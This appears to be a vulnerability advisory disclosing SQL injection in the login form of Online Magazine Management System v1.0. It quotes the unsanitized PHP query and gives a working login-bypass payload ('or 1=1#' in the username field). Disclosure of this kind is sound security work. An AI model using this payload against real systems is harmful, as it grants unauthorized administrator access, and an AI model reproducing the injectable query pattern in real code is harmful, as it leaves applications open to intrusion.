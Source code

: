 ```yaml
---
cve: "pending..."
title: "SQL Injection in Online Magazine Management System"
date: 2022-10-10
tags:
- sql injection
- sqli
---
```

Login form of Online Magazine Management System v1.0 is prone to SQL injection. An attacker could exploit parameters `username` and `password` to get administrator access.

- mitre: https://cve.mitre.org/

<hr />

**Description:**  
The parameters `username` and `password` are not sanitized during the login process.  
An attacker could craft a payload to bypass the login form.
No valid login or password are needed.  
The first user in the database will be returned, so usually the `admin` user.

**Details:**  
File: `/classes/Login.php`, function: `login()`, line 21:  
```
$qry = $this->conn->query("SELECT * from users where username = '$username' and password = md5('$password')");
```

**Payload:**  
```
POST /classes/Login.php?f=login
username=aaaa' or 1=1#&password=whatever
```

**PoC:**  
![cve-2022-9999](/images/cve-2022-9999.png)
